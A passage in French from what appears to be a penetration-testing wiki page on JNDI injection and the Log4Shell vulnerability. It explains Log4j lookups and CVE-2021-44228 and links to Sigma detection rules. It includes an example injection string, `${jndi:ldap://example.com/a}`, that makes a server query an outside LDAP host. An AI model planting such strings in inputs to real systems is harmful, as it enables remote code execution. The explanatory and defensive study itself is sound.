 ![](<../../images/image (275).png>)

L'**exploit est sérialisé** et sera désérialisé.\
Dans le cas où `trustURLCodebase` est `true`, un attaquant peut fournir ses propres classes dans la codebase sinon, il devra abuser des gadgets dans le classpath.

#### Exploit de référence JNDI

Il est plus facile d'attaquer ce LDAP en utilisant des **références JavaFactory** :

![](<../../images/image (1059).png>)

## Vulnérabilité Log4Shell

La vulnérabilité est introduite dans Log4j car il prend en charge une [**syntaxe spéciale**](https://logging.apache.org/log4j/2.x/manual/configuration.html#PropertySubstitution) sous la forme `${prefix:name}` où `prefix` est l'un d'un certain nombre de [**Lookups**](https://logging.apache.org/log4j/2.x/manual/lookups.html) où `name` doit être évalué. Par exemple, `${java:version}` est la version actuelle de Java en cours d'exécution.

[**LOG4J2-313**](https://issues.apache.org/jira/browse/LOG4J2-313) a introduit une fonctionnalité de recherche `jndi`. Cette fonctionnalité permet la récupération de variables via JNDI. En général, la clé est automatiquement préfixée par `java:comp/env/`. Cependant, si la clé elle-même inclut un **":"**, ce préfixe par défaut n'est pas appliqué.

Avec un **: présent** dans la clé, comme dans `${jndi:ldap://example.com/a}`, il n'y a **pas de préfixe** et le **serveur LDAP est interrogé pour l'objet**. Et ces Lookups peuvent être utilisés à la fois dans la configuration de Log4j ainsi que lorsque des lignes sont enregistrées.

Par conséquent, la seule chose nécessaire pour obtenir RCE est une **version vulnérable de Log4j traitant des informations contrôlées par l'utilisateur**. Et parce que c'est une bibliothèque largement utilisée par les applications Java pour enregistrer des informations (y compris les applications exposées à Internet), il était très courant d'avoir log4j enregistrant par exemple les en-têtes HTTP reçus comme le User-Agent. Cependant, log4j n'est **pas utilisé uniquement pour enregistrer des informations HTTP mais toute entrée** et données que le développeur a indiquées.

## Aperçu des CVEs liés à Log4Shell

### [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228) **\[Critique]**

Cette vulnérabilité est un **défaut de désérialisation non fiable** dans le composant `log4j-core`, affectant les versions de 2.0-beta9 à 2.14.1. Elle permet l'**exécution de code à distance (RCE)**, permettant aux attaquants de prendre le contrôle des systèmes. Le problème a été signalé par Chen Zhaojun de l'équipe de sécurité d'Alibaba Cloud et affecte divers frameworks Apache. Le correctif initial dans la version 2.15.0 était incomplet. Des règles Sigma pour la défense sont disponibles ([Règle 1](https://github.com/SigmaHQ/sigma/blob/master/rules/web/web_cve_2021_44228_log4j_fields.yml), [Règle 2](https://github.com/SigmaHQ/sigma/blob/master/rules/web/web_cve_2021_44228_log4j.yml)).

### [CVE-2021-45046](https://nvd.nist.gov/vuln/detail/CVE-2021-45046) **\[Critique]**
